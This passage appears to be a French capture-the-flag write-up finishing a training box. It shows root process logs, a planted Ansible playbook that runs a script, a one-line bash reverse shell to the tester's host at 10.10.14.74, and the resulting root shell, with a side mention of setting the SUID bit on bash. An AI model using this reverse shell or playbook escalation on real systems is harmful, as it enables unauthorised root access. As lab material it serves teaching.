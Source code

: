 ```text
2023/06/06 23:32:03 CMD: UID=0     PID=65540  | /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1686094321.9814165-65485-109250615245810/AnsiballZ_setup.py 
2023/06/06 23:32:03 CMD: UID=0     PID=65541  | 
2023/06/06 23:32:03 CMD: UID=0     PID=65548  | 
2023/06/06 23:32:03 CMD: UID=0     PID=65547  | /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1686094321.9814165-65485-109250615245810/AnsiballZ_setup.py 
2023/06/06 23:32:03 CMD: UID=0     PID=65549  | 
2023/06/06 23:32:03 CMD: UID=0     PID=65550  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
2023/06/06 23:32:03 CMD: UID=0     PID=65551  | /bin/sh -c rm -f -r /root/.ansible/tmp/ansible-tmp-1686094321.9814165-65485-109250615245810/ > /dev/null 2>&1 && sleep 0 
2023/06/06 23:32:03 CMD: UID=0     PID=65552  | /bin/sh -c rm -f -r /root/.ansible/tmp/ansible-tmp-1686094321.9814165-65485-109250615245810/ > /dev/null 2>&1 && sleep 0 
2023/06/06 23:32:03 CMD: UID=0     PID=65553  | sleep 0 
2023/06/06 23:32:03 CMD: UID=0     PID=65555  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
2023/06/06 23:32:03 CMD: UID=0     PID=65556  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
2023/06/06 23:32:03 CMD: UID=0     PID=65557  | /bin/sh -c echo ~root && sleep 0 
2023/06/06 23:32:03 CMD: UID=0     PID=65558  | /bin/sh -c echo ~root && sleep 0 
```


Et notamment, à un moment, ansible-parralel va exécuter tous les fichiers .yml dans le dossier /opt/automation/tasks/.

On peut donc écrire un fichier yml qui va exécuter un script[^footnote] :

```yml
- hosts: localhost
  tasks:
    - name: exploit
      command: sudo bash /tmp/exploit3.sh
```

exploit3.sh :

```sh
#!/usr/bin/sh

sh -i >& /dev/tcp/10.10.14.74/5050 0>&1
```

Résultat :

```bash
└─$ nc -lnvp 5050
listening on [any] 5050 ...
connect to [10.10.14.74] from (UNKNOWN) [10.129.228.213] 51440
sh: 0: can't access tty; job control turned off
# ls
playbook_1.yml
# whoami
root
# cd ~
# ls
playbook_1.yml
root.txt
```

Note :  on pourrait également mettre le suid bit sur bash, mais c'est une solution qui ruine les autres utilisateurs s'il y en a.

La box est terminée.

[^footnote]: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/
